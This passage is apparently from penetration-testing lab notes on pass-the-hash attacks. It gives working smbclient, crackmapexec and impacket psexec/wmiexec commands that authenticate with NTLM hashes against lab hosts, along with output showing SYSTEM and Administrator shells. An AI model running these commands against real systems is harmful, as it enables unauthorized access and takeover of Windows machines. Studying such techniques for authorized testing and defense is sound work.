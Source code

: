```
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```







#### Using `crackmapexec`

```
crackmapexec smb 10.129.41.19 -u rachel -H [NTLM hash]

SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)
```










#### For command execution, we can use the scripts from the `impacket` library like `psexec.py` and `wmiexec.py`.

To execute `psexec`, we can enter `impacket-psexec` with two arguments.
The first argument is `-hashes`, which allows us to use NTLM hashes to authenticate to the target.

The format is "LMHash:NTHash", in which we specify the Administrator NTLM hash after the colon. Since we only use the NTLM hash, we can fill the LMHash section with 32 0's. The second argument is the target definition in the format "username@ip".

At the end of the command we could specify another argument, which is used to determine which command `psexec` should execute on the target system. If we leave it empty, `cmd.exe` will be executed, providing us with an interactive shell.

Due to the nature of `psexec.py`, we'll always receive a shell as `SYSTEM` instead of the user we used to authenticate.

```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b 
Administrator@192.168.50.212


C:\Windows\system32> whoami
nt authority\system
```



We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell 
as the user we used for authentication. On Kali, we would use `impacket-wmiexec` 
along with the arguments we used for `impacket-psexec`.
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212


C:\>whoami
files02\administrator
```
As the whoami output shows, we obtained a shell as the Administrator user with wmiexec instead of SYSTEM.
